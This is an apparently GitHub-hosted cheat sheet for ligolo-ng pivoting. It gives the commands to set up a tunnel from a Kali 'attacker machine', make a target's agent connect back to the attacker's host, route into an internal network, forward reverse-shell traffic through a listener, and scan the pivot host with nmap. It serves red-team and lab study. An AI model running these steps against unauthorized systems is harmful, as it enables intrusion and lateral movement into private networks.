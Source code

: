 # 🛡️ ligolo-ng Cheat Sheet

External Interface: `10.1.1.10/24`  
Internal Interface: `10.1.2.4/24`

## 🖥️ On Kali (Attacker Machine)
1. Create and enable the TUN interface
```bash
ip tuntap add user root mode tun ligolo
ip link set ligolo up
ip addr show ligolo
```
2. Start the ligolo proxy
```bash
ligolo-proxy -selfcert
# Use -autocert during real red team engagements
```
## 🧩 On Target Machine
3. Run the agent to connect to the attacker
```bash
./agent -connect <kali_ip>:11601 -ignore-cert
# If -autocert was used on the proxy, -ignore-cert is not required
```
## 🔗 On Kali (in ligolo-ng session)
4. Interact with session
```bash
ligolo-ng » session
```
5. Add a route to the internal network
```bash
ip route add 10.1.2.0/24 dev ligolo
```
6. Start the tunnel
```bash
start
```
✅ Tunnel to the internal network is now established.
## 🔄 Reverse Shell from Internal to Attacker (Port Redirection)
7. Setup a listener inside the ligolo-ng session
```bash
listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp

# 0.0.0.0:30000 → Listens on the target machine
# 127.0.0.1:10000 → Redirects traffic to attacker machine

💡 While generating a reverse shell payload:
# Use target machine’s IP and port 30000 (or any random port)
# Traffic will be forwarded to attacker's port 10000 (or any random port)
```
## 📡 Access Pivot Machine’s Ports (Direct Scanning)
8. Add a specific route to access the pivot machine itself
```bash
ip route add 240.0.0.1/32 dev ligolo
# 240.0.0.1 is a special IP address used by ligolo-ng to represent the pivot machine itself (the host where the agent is running).
```
9. Scan the pivot machine using Nmap
```bash
nmap 240.0.0.1
```
🔍 This will reveal open ports on the pivot machine, accessible via the ligolo tunnel.
